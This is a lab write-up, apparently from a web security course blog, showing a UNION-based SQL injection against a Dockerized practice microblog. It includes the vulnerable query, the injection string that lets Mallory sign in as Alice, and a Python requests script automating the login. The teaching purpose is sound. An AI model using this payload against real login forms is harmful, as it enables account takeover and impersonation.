 ```yaml
---
layout: post
title: SQL Injection
category: web_security
author: 'reo'
tags: python seclab docker webapp
mathjax: 
---
```


An example of an SQL injection on an artificial microblog service.

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## Setup

***

Our network here is set up with the microblog webapp again

```yaml
version: '3'

services:
  microblog:
    image: # private image
    container_name: microblog
    ports:
      - "8080:80"
    networks:
      channel:
        ipv4_address: 10.0.0.2
        
  alice:
    image: # private image
    container_name: alice
    tty: true
    shm_size: '1gb'
    sysctls:
        - net.ipv6.conf.all.disable_ipv6=1
    networks:
      channel:
        ipv4_address: 10.0.0.3
        
  mallory:
      image: # private image
      container_name: mallory
      tty: true
      restart: always
      volumes:
          - .:/shared
      network_mode: service:microblog
      
  wireshark:
    image: # private image
    container_name: wireshark
    tty: true
    network_mode: service:microblog

networks:
  channel:
    driver: bridge
    ipam:
      config:
        - subnet: 10.0.0.0/24
```

as usual, we start our containers with `docker-compose up`

<br>

***

## Observations

***

The backend seems to be creating the query by simply concatenating our (unsafe) input like.

```
$query = "SELECT * FROM users WHERE email = '$email'";
```

Additionally, the backend doesn't check whether the string sent in the email field is in fact a proper email.
We can use this to our advantage to manipulate the table and log in as Alice without knowing her password.

|![main page](/assets/images/incmed1.png)|
|:--:|
| *The email field when signing in on the main page* |

<br>

***

## The Attack

***

In the exploit, we set the email field to be an SQL query so when the server
tries to fetch the corresponding user, it also performs the "injected" operations.

In order to log in as Alice, we use string literals which correspond to her email and
username while selecting the password which correspond to mallory's email.

```sql
SELECT 'alice@example.com','Alice', password FROM users WHERE email = 'mallory@example.com'"
```

however, since the server-side uses single quotes and already has a `SELECT` operation
we need to get it to ignore the first part and return only the injected code.
This can by done by `UNION` with something we know should return an empty table, for instance

```sql
SELECT * FROM users WHERE email = '0'
```

playing around the single quotes and using `UNION` our final query looks as follows:

```
"0' UNION SELECT 'alice@example.com','Alice', password FROM users where email = 'mallory@example.com",
```

Finally, we can automate the process using the requests library similar to past exercises:

```python
import os, requests
from urllib.parse import urlencode

PROTOCOL = "http"
HOST = "10.0.0.2"
PORT = "80"
BASE = PROTOCOL + "://" + HOST + ":" + PORT

# Mallory's credentials
mallory = {
    'email': "0' UNION SELECT 'alice@example.com','Alice', password FROM users where email = 'mallory@example.com",
    'password': 'pass4mallory'
}

with requests.Session() as s:
     # sign-in as mallory (POST request)
     res = s.post(BASE + '/signin.php', data=mallory)
     # post a message (POST request)
     res = s.post(BASE + '/post.php', data={'msg': "Got You!"})
```

<br>

***

## Conclusion

***

This attack relies on the server not doing proper sanitization on the input it's given.
This can be mitigated by sanitizing the user input in the backend before processing.

When you're done, don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}


